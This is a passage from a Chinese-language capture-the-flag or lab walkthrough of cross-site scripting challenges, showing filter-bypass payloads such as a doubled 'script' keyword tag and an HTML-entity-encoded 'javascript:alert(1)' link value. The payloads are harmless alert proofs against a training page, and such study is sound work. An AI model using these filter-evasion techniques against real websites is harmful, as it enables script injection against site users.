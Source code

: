 ```
"><sscriptcript>alert(1)</scscriptript>
```



### 8.

尝试添加

```
<script>alert(1)</script>
```



查看元素发现

```
<center><BR><a href="<scr_ipt>alert(1)</scr_ipt>">友情链接</a></center><center><img src=level8.jpg></center>
```



分析：

首先滤过了script，也不能双写

尝试直接提交

```
javascript:alert(1)
```

变成了

```
<a href="javascr_ipt:alert(1)">友情链接</a></center><center><img src=level8.jpg></center>
```



上网查看一下a标签还有什么元素可以操作

尝试将JavaScript进行unicode编码转义

选择 Unicode 转 ASCII码进行计算

结果为

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

直接payload



### 9.

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```
